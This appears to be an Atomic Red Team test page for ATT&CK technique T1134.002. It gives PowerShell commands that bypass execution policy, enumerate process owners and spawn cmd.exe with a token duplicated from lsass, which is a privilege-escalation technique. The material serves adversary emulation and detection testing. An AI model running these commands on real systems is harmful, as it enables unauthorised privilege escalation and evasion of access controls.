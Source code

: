 # T1134.002 - Create Process with Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/002)
<blockquote>Adversaries may create a new process with a duplicated token to escalate privileges and bypass access controls. An adversary can duplicate a desired access token with <code>DuplicateToken(Ex)</code> and use it with <code>CreateProcessWithTokenW</code> to create a new process running under the security context of the impersonated user. This is useful for creating a new process under the security context of a different user.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Token Manipulation](#atomic-test-1---access-token-manipulation)


<br/>

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
Set-Location $PathToAtomicsFolder
.\T1134.002\src\GetToken.ps1; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```

#### Cleanup Commands:
```powershell
taskkill /im cmd.exe /f
```





<br/>
